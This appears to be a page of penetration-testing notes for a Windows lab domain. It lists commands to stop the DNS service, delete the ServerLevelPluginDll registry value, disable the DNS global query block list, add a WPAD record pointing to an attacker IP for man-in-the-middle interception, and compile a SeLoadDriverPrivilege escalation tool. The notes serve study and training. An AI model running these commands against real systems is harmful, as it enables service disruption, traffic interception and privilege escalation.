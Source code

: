 #### Stopping a service
```cmd
sc stop dns
```
- Stops the DNS service, potentially as part of a service disruption attack or to replace a service binary.

#### Starting a service
```cmd
sc start dns
```
- Starts the DNS service, useful after maintenance or exploitation activities.

#### Querying a registry key
```cmd
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```
- Queries a specific registry key, potentially to check for misconfigurations or malicious entries.

#### Deleting a registry key
```cmd
reg delete \\10.129.43.9\HKLM\SYSTEM\Current

ControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
```
- Removes a registry value, here aiming to eliminate a custom DNS server plugin configuration.

#### Checking a service status
```cmd
sc query dns
```
- Queries the current status of the DNS service, indicating whether it is running, stopped, or in another state.

#### Disabling the global query block list
```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```
- Disables the DNS Server Global Query Block List, potentially to allow WPAD and ISATAP name resolution.

#### Adding a WPAD record
```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```
- Adds an A record for WPAD in the specified DNS zone, facilitating a man-in-the-middle (MitM) attack.

#### Compile with cl.exe
```cmd
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```
- Compiles a C++ source file, specifying Unicode definitions, potentially for privilege escalation exploits.

